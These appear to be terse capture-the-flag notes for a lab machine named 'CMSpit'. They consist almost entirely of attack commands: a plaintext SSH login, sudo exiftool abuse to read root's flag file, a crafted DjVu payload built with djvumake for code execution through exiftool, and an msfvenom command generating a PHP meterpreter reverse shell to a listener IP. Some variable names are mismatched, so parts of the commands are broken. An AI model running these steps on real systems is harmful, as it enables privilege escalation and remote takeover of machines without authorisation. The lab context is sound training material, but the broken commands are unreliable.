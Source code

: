 
CMSpit
======

name: "stux", name: "p4ssw0rdhack3d!123"

to login ssh and try to get root


LFILE=/root/root.txt

OUPUT=/home/stux/privesc

sudo exiftool -filename=$OUTPUT $FILE

cat $OUTPUT

bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu

sudo exiftool -filename=$LFILE $INPUT

sudo exiftool -filename=/tmp/root.txt /root/root.txt

msfvenom -p php/meterpreter/reverse_tcp lhost=10.8.129.145 lport=1337 -f raw > shell.php
